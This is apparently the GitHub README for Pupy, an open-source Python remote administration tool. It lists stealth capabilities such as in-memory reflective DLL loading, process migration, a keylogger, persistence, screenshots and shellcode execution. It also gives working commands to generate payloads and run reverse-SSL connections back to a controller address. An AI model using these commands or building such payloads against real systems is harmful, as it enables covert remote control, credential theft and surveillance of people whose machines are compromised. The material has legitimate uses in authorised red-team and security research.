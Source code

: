# Pupy
Pupy is an opensource, multi-platform Remote Administration Tool written in Python. On Windows, Pupy uses reflective dll injection and leaves no traces on disk.

## Features :
- On windows, the Pupy payload is compiled as a reflective DLL and the whole python interpreter is loaded from memory. Pupy does not touch the disk :)
- Pupy can reflectively migrate into other processes
- Pupy can remotely import, from memory, pure python packages (.py, .pyc) and compiled python C extensions (.pyd). The imported python modules do not touch the disk. (.pyd mem import currently work on Windows only, .so memory import is not implemented). 
- modules are quite simple to write and pupy is easily extensible.
- Pupy uses [rpyc](https://github.com/tomerfiliba/rpyc) and a module can directly access python objects on the remote client
  - we can also access remote objects interactively from the pupy shell and even auto completion of remote attributes works !
- communication channel currently works as a ssl reverse connection, but a bind payload will be implemented in the future
- all the non interactive modules can be dispatched on multiple hosts in one command
- Multi-platform (tested on windows 7, windows xp, kali linux, ubuntu)
- modules can be executed as background jobs
- commands and scripts running on remote hosts are interruptible
- auto-completion and nice colored output :-)
- commands aliases can be defined in the config

## Implemented Modules :
- migrate (windows only) 
  - inter process architecture injection also works (x86->x64 and x64->x86)
- keylogger (windows only)
- persistence (windows only)
- screenshot (windows only)
- command execution
- download
- upload
- socks5 proxy
- local port forwarding
- interactive shell (cmd.exe, /bin/sh, ...)
- interactive python shell
- shellcode exec (thanks to @byt3bl33d3r)

##Quick start
In these examples the server is running on a linux host (tested on kali linux) and it's IP address is 192.168.0.1  
The clients have been tested on (Windows 7, Windows XP, kali linux, ubuntu, Mac OS X 10.10.5) 
### generate/run a payload
#### for Windows
```bash
./genpayload.py 192.168.0.1 -p 443 -t exe_x86 -o pupyx86.exe
```
you can also use -t dll_x86 or dll_x64 to generate a reflective DLL and inject/load it by your own means.
#### for Linux
```bash
pip install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```

#### for MAC OS X
```bash
easy_install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```

### start the server
1. eventually edit pupy.conf to change the bind address / port
2. start the pupy server :
```bash
./pupysh.py
```

### Some screenshots
#####list connected clients
![screenshot1](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr1.png "screenshot1")
#####help
![screenshot3](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/help.png "screenshot3")
#####execute python code on all clients
![screenshot2](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr2.png "screenshot2")
#####execute a command on all clients, exception is retrieved in case the command does not exists
![screenshot4](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr3.png "screenshot4")
#####use a filter to send a module only on selected clients
![screenshot5](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/filters.png "screenshot5")
#####migrate into another process
![screenshot6](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/migrate.png "screenshot6")
#####interactive shell
![screenshot7](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/interactive_shell.png "screenshot7")
#####interactive python shell
![screenshot8](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/pyshell.png "screenshot8")

##example: How to write a MsgBox module
first of all write the function/class you want to import on the remote client  
in the example we create the file pupy/packages/windows/all/pupwinutils/msgbox.py 
```python
import ctypes
import threading

def MessageBox(text, title):
	t=threading.Thread(target=ctypes.windll.user32.MessageBoxA, args=(None, text, title, 0))
	t.daemon=True
	t.start()
```
then, simply create a module to load our package and call the function remotely
```python
class MsgBoxPopup(PupyModule):
	""" Pop up a custom message box """

	def init_argparse(self):
		self.arg_parser = PupyArgumentParser(prog="msgbox", description=self.__doc__)
		self.arg_parser.add_argument('--title', help='msgbox title')
		self.arg_parser.add_argument('text', help='text to print in the msgbox :)')

	@windows_only
	def is_compatible(self):
		pass

	def run(self, args):
		self.client.load_package("pupwinutils.msgbox")
		self.client.conn.modules['pupwinutils.msgbox'].MessageBox(args.text, args.title)
		self.log("message box popped !")

```

## Dependencies
rpyc (https://github.com/tomerfiliba/rpyc)

##Roadmap and ideas
Some ideas without any priority order
- support for https proxy
- bind instead of reverse connection
- add offline options to payloads like enable/disable certificate checking, embed offline modules (persistence, keylogger, ...), etc...
- integrate scapy in the windows dll :D (that would be fun)
- work on stealthiness and modules under unix systems
- webcam snap
- mic recording
- socks5 udp support
- remote port forwarding
- perhaps write some documentation
- ...
- any cool idea ?

## Contact
mail: contact@n1nj4.eu  
  
If some of you want to participate or send me a feedback, don't hesitate :-)  
[Follow me on twitter](https://twitter.com/n1nj4sec)
 
